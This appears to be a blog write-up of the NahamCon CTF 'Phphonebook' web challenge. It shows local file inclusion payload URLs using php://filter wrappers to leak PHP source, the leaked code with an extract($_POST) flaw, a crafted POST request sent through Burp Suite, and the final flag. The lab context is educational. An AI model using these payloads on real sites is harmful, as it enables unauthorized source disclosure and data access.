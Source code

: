 ```yaml
---
title: nahamcon-ctf-phphonebook
post_title: Phphonebook Writeup - NahamCon CTF
categories:
  - writeups
tags:
  - ctf
  - writeup
  - nahamcon
  - web
---
```


This is a writeup for Phphonebook web challenge from NahamCon CTF.

![image](/assets/images/writeups/nahamcon-ctf/{{ page.title | remove: "nahamcon-ctf-" }}/1.png)

<http://jh2i.com:50002>

This is a web challenge which we will exploit [Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion) vulnerability.

Once we open the url of the challenge we will find the below page.

![image](/assets/images/writeups/nahamcon-ctf/{{ page.title | remove: "nahamcon-ctf-" }}/2.png)

Which tells us that we are in `/index.php/?file=` and The phonebook is located at `phphonebook.php`

If we go to <https://jh2i.com:50002/phphonebook.php> we will find nothing interesting. It's just a text box and a submit button giving back no response.

![image](/assets/images/writeups/nahamcon-ctf/{{ page.title | remove: "nahamcon-ctf-" }}/3.png)

So lets go back and try to include phphonebook.php in the /index.php/ page using the 'file' parameter.

<https://jh2i.com:50002/index.php/?file=phphonebook.php>

It worked! and phphonebook.php is included and interpreted in the /index.php page. Now lets go search for any technique to abuse the local file inclusion to get the contents/source code of `phphonebook.php` file without it's being interpreted by the server to see whats inside it.

You will find more than one technique using php filters to retrieve the source code through local file inclusion.

<http://jh2i.com:50002/index.php/?file=php://filter/convert.base64-encode/resource=phphonebook.php>

The above one will retrieve you the source code but its base64-encoded. You are free to go decode it and see what you can do with it.

`PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KICA8aGVhZD4KICAgIDxtZXRhIGNoYXJzZXQ9InV0Zi04Ij4KICAgIDx0aXRsZT5QaHBob25lYm9vazwvdGl0bGU+CiAgICA8bGluayBocmVmPSJtYWluLmNzcyIgcmzk1MWkyZy . . . 5ldC9pbWcvZXZlbnRzL2lkLzQ1Ny80NTc3NDgxMjEvYXNzZXRzL2Y3ZGEwZDcxOGViNzdjODNmNWNiNjIyMWEwNmEyZjQ1LmludGkucG5nIj4KPC9wPgo8L2Rpdj4KCiAgPC9ib2R5Pgo8L2h0bWw+`

Or you can simply use a php filter to convert it to UTF format using the below url.

<http://jh2i.com:50002/index.php/?file=php://filter/convert.iconv.utf-8.utf-16le/resource=phphonebook.php>

```html
 <!DOCTYPE html><html lang="en">  <head>    <meta charset="utf-8">    <title>Phphonebook</title>    <link href="main.css" rel="stylesheet">  </head>  <body class="bg">    <h1 id="header"> Welcome to the Phphonebook </h1>    <div id="im_container">      <img src="book.jpg" width="50%" height="30%"/>      <p class="desc">      This phphonebook was made to look up all sorts of numbers! Have fun...      </p>    </div><br><br>    <div>      <form method="POST" action="#">        <label id="form_label">Enter number: </label>        <input type="text" name="number">        <input type="submit" value="Submit">      </form>    </div>    <div id="php_container">    <?php      extract($_POST);     if (isset($emergency)){      echo(file_get_contents("/flag.txt"));     }    ?>  </div>  </br>  </br>  </br><div style="position:fixed; bottom:1%; left:1%;"><br><br><br><br><b> NOT CHALLENGE RELATED:</b><br>THANK YOU to INTIGRITI for supporting NahamCon and NahamCon CTF!<p><img width=600px src="https://d24wuq6o951i2g.cloudfront.net/img/events/id/457/457748121/assets/f7da0d718eb77c83f5cb6221a06a2f45.inti.png"></p></div>  </body></html>
```

After sending the payload we will get the source code of `phphonebook.php` but it needs to be beautified. So let's copy the source code and go to <https://beautifier.io/> then select Beautify HTML, paste the code and click on Beautify code.

![image](/assets/images/writeups/nahamcon-ctf/{{ page.title | remove: "nahamcon-ctf-" }}/4.png)

Once it has been beautified, you can see the php line of code which extracts a POST request parameters and checks if a parameter called 'emergency' exists or not. If it exist, then it will echo the contents of the `flag.txt` file which we are looking for.

Lets craft a POST request with the 'emergency' parameter included and see what happens.

To manipulate and send custom requests we have two options, the web browser dev tools or we can use Burpsuite. I'm going to use Burpsuite just to be familiar with it and see how it works and how to use it to send custom requests. Lets open burpsuite to intercept, manipulate and send custom requests to the web server of the challenge.

Before using Burpsuite we should configure the browser to use it as a proxy. I'm using FoxyProxy firefox extension with Burpsuite settings configured. Open the browser then enable Burpsuite proxy settings. then open <http://jh2i.com:50002/phphonebook.php> in the browser.

![image](/assets/images/writeups/nahamcon-ctf/{{ page.title | remove: "nahamcon-ctf-" }}/5.png)

Now go back to Burpsuite, open Proxy tab then you will see that the request to the web server has been intercepted. What we found is the request is a GET not a POST request, but what we want to do is to send a POST request with the 'emergency' parameter included.

![image](/assets/images/writeups/nahamcon-ctf/{{ page.title | remove: "nahamcon-ctf-" }}/6.png)

So right click anywhere on the request, then choose Send to repeater or simply just click `ctrl+r`. Go to Repeater tab. On the request Raw tab text box, change the GET method to POST, then add the 'emergency' POST parameter to the body of the request.

Now an additional tab called 'Params' will be automatically shown which includes all the parameters of the request which in our case is just the 'emergency' parameter.

After sending the request, a response is received with the flag as shown.

![image](/assets/images/writeups/nahamcon-ctf/{{ page.title | remove: "nahamcon-ctf-" }}/7.png)

`flag{phon3_numb3r_3xtr4ct3d}`
